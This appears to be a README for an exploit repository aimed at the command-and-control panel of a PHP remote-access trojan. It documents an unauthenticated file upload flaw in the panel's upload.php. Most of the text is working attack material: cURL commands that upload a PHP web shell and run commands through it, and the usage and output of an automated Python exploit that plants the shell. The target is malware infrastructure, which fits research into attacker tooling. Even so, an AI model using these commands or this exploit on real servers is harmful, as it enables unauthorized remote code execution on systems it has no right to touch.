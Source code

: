 # TorCTPwn

I was having a look at the C&C panel of the [TorCT RAT](https://github.com/alienwithin/torCT-PHP-RAT) for a bit of amusement, and noticed that it suffers an absurdly trivial shell upload vulnerability, outlined below.

See: [upload.php](https://github.com/alienwithin/torCT-PHP-RAT/blob/master/server/upload.php) and note we can upload whatever the hell we want to a place with whatever name we want. Trivial shell upload with no auth or anything.

PoC using cURL:
```
$ curl -F name=lol.php -F file=@/tmp/lol.php -i http://localhost/upload.php
File lol.php is successfully uploaded!
File is successfully stored!
$ curl http://localhost/Upload/lol.php?1=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ curl http://localhost/Upload/lol.php?1=uname
Linux
$ 
```

For shits and giggles, there is also an automated exploit for this in this repo.
```
$ python torct-pwn.py 
use: torct-pwn.py http://torct.whatever/upload.php /your/shell.php
$ python torct-pwn.py http://localhost/upload.php /tmp/lol.php 
[+] Shell Uploaded! It should be in: http://localhost/Upload/lol.php
$ curl http://localhost/Upload/lol.php?1=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
